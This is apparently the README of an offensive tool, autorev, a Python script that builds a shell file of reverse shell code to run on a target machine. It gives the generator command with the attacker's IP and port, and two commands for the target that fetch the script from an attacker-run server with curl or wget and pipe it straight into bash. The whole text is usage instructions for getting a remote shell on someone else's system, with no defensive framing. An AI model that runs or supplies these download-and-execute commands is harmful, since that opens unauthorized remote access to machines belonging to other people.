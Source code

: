 # autorev.sh  
The Pythone Script will generate a (.)sh file with reverse shell codes then you can execute the script on the target  
## Generating Usage  
```
python3 autorev.py -i <your-ip> -p <your-port>
```
## Using It On Target  
### Curl  
```
curl <your-temp-server-ip>/autorev.sh | bash
```
### Wget  
```
wget <your-temp-server-ip>/autorev.sh -O /tmp/autorev.sh && bash /tmp/autorev.sh
```

